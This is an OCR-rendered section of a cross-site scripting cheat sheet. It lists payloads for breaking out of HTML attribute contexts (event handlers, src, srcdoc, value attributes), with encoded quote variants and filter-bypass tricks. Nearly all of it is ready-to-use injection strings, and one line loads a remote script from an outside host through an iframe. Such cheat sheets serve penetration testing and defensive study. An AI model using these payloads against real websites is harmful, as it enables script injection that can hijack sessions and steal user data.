 ### Inside Tag
##### Event Handler (onXXX)
- Break the context by HTML-encode `'` to `%26%2339;` or `%26%23x27;` or `%26apos;`. (1st golden tip)
  ```html
  ');alert(origin);//                                    <!--     <tag event_handler="func('$input')">                            -->
  %26%2339;);alert(origin);//                            <!--     <body onload="doSomething('test')">                             -->
  %26%23x27;/alert(origin)/%26%23x27;
  %26apos;-alert(origin)-%26apos;
  %26%23x27;/alert%26%23x28;origin%26%23x29;/%26%23x27;  <!-- ( and ) are filtered with blacklist                                 -->
  
  ');\u{0061}lert(origin)//
  ');print``//
  ``` 
##### Inside `src` attribute (rare condition)
- Bypass whitelist if exists.
  ```html
  <iframe src="https://cvefix.ir/exploit.js">            <!--     <iframe src="$input">                                           -->
  "><svg/onload=alert(origin)>                           <!--     <img src="/resources/images/tracker.gif?searchTerms=xxx">       -->
  "></iframe><svg/onload=alert(origin)>                  <!--     <iframe style="display:none" src="/xxx"></iframe>               -->
  "onload="alert(origin)
  ```

##### Inside `srcdoc` attribute
- Based on 1st golden tip, we can HTML-encode the payload.
  ```html
  <iframe srcdoc="<script>alert(origin)</script>">       <!--     <iframe srcdoc="$input">                                        -->
  <iframe srcdoc="%26lt;svg/onload=alert(origin)%26gt;">
  ```

##### Generic attribute
- Code example
  ```html
  <input type="text" value="$input">
  <input type="text" value='$input'>
  <input type="text" value=$input>
  ```
- Break the context, then close the HTML tag. (if there is no context, there is no need to break)
  ```html
  "
  %22
  %2522
  &quot;
  %26quot;
  %2526quot;
  ```
  ```html
  '
  %27
  %2527
  &#39;
  %26%2339;
  %26%2339;
  %2526%252339;
  ```
  ```html
  \'
  \"
  ```